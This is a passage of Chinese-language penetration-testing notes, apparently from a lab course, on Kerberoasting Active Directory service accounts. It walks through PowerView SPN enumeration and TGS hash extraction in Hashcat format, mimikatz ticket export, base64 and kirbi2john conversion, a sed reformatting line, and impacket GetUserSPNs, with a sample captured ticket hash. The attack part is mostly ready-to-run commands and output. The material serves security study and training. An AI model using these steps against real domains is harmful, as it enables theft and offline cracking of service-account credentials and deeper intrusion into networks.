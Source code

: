 >	- 攻擊者把這段加密資料抓下來，離線爆破 (brute force / dictionary / GPU crack)，破解出服務帳號的明文密碼。
>3. 結論: ** 一個普通域使用者，去請求服務票證 (TGS)，把裡面用服務帳號 hash 加密的資料拿回來，離線爆破以取得服務帳號密碼。**

>[!WARNING]
>實施Kerberoasting的前提是有以下其中一點
>- domain user credentials (cleartext or just an NTLM hash)
>- SYSTEM account 
>- shell in the context of a domain user

>[!NOTE]
>Kerberoasting主要攻擊SPN account(SPNs are unique identifiers that Kerberos uses to map a service instance to a service account in whose context the service is running)
### 利用PowerView列舉SPN資訊
- 導入powerview
```powershell-session
Import-Module .\PowerView.ps1
```
- 列舉SPN account
```powershell-session
Get-DomainUser * -spn | select samaccountname
```
- 列舉特定SPN account的資訊
```powershell-session
Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat
```
```powershell-session
SamAccountName       : sqldev
DistinguishedName    : CN=sqldev,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
ServicePrincipalName : MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433
TicketByteHexStream  :
Hash                 : $krb5tgs$23$*sqldev$INLANEFREIGHT.LOCAL$MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433*$BF9729001
                       376B63C5CAC933493C58CE7$4029DBBA2566AB4748EDB609CA47A6E7F6E0C10AF50B02D10A6F92349DDE3336018DE177AB4FF3CE724FB0809CDA9E30703EDDE93706891BCF094FE64387B8A32771C7653D5CFB7A70DE0E45FF7ED6014B5F769FDC690870416F3866A9912F7374AE1913D83C14AB51E74F200754C011BD11932464BEDA7F1841CCCE6873EBF0EC5215C0
......
```
### mimikatz 
>利用mimikatz抓取memory抓取裡面殘存的TGS
- 撈取指令
```cmd-session
base64 /out:true
mimikatz # kerberos::list /export
```
- 輸出成base64格式，有利於利用複製貼上到kali做破解，
```shell-session
 echo "doIGPzCCBjugAwIBBaEDAgEWooIFKDCCBSRhggUgMII......." |  tr -d \\n 
```
```shell-session
 cat encoded_file | base64 -d > sqldev.kirbi
```
- 透過kirbi2john解析出TGS，可以把輸出存在crack_file檔案裡面(自己建立)
```shell-session
python2.7 kirbi2john.py sqldev.kirbi
```
[kirbi2john.py](https://raw.githubusercontent.com/nidem/kerberoast/907bf234745fe907cf85f3fd916d1c14ab9d65c0/kirbi2john.py)
- 透過指令把格式修改成hashcat可以吃
```shell-session
sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat
```
### impacket-GetUserSPNs
- 用 GetUserSPNs列舉使用者資訊
```shell-session
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend
```